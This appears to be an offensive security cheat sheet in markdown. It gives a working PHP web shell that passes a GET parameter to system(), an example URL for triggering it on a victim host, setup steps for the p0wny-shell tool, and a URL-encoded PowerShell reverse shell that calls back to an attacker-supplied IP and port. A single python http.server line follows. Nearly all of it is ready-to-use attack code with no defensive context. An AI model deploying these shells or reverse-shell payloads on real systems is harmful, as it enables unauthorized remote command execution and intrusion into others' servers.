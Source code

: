 ## web shells

```bash
ls -lah /usr/share/webshells
```

```bash
# PHP Web Shell

# shell.php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
    
# Execute --> http://victim.com/uploads/shell.php?cmd=whoami
```

```bash
# p0wny-shell - PHP shell
cd /opt
sudo git clone https://github.com/flozz/p0wny-shell.git
cd /opt/p0wny-shell
docker build -t p0wny .
docker run -it -p 8080:80 -d p0wny
# http://127.0.0.1:8080/shell.php
```

```powershell
# URL encoded powershell reverse shell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

---

## python webserver

```bash
sudo python3 -m http.server 8000
```

---







